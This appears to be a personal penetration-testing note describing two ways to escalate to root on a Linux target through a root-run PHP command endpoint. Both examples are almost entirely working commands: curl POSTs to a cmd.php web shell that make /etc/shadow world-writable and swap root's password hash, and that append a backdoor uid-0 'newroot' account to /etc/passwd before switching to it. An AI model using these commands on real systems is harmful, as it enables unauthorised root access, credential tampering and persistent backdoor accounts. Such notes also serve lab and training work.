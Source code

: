 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#### Example 1
Say we find a listener on port 8080 running as root.  We can try using curl to POST data to it, first may need to find the files related to that port:

[[find]]
```bash - target
find / -iname *.php* 2>/dev/null
```

```bash - target
find / -iname *.html* 2>/dev/null
```


```bash - target
cat start_page.php
```

Here we can see discussion of cmd.php page.

![[Pasted image 20220713144014.png]]

```bash - target
cat cmd.php
```

Here we see on the cmd.php page that we can POST data to it and it will run the command.

![[Pasted image 20220713144136.png]]

```bash - target
curl -X POST 0.0.0.0:8080/start_page.php?page=cmd.php --data cmd='id'
```

Next start testing what you can do with passwd and shadow files.  Below, we will chmod shadow file and replace hash vaule.

```bash - target
curl -X POST 0.0.0.0:8080/start_page.php?page=cmd.php --data cmd='chmod 777 /etc/shadow'
```

```bash - target
curl -X POST 0.0.0.0:8080/start_page.php?page=cmd.php --data cmd='cat /etc/shadow'
```

Copy contents to local shadow file on kali to edit and send back.

```bash - kali
mkpasswd -m sha-512 password
```

`$6$5gnWUgDEXJ.J.X3s$truKvZr/Vl7o5SIb.TEgR44LyihHNUoCZnt4PIIO31EyTOc6Pfccd1AYdwwp2Vj1CT.1y1vpxroyvuhxCYKGl/`

Replace root password hash with above, send to target and replace /etc/shadow

```bash - target
su root
```

```bash - target
password
```

#### Example 2

We find a php file listening on port 8000.

```bash - target
cat cmd.php
```

><?php system($_POST['cmd']); ?>

verify we can run commands with this by creating a test file:

```bash - target
curl -X POST --data cmd='touch /home/$USER/test' 127.0.0.1:8000/cmd.php
```

Generate a password hash for the password “password”

using openssl:

```bash - target
openssl passwd "password"
```

```bash - target
curl -X POST --data cmd=' echo newroot:Ar4farDnTEYmw:0:0:root:/root:/bin/bash >> /etc/passwd' 127.0.0.1:8000/cmd.php
```

```bash - target
cat /etc/passwd | grep root
```

![[Pasted image 20221110094556.png]]

```bash - target
su newroot
```

```bash - target
password
```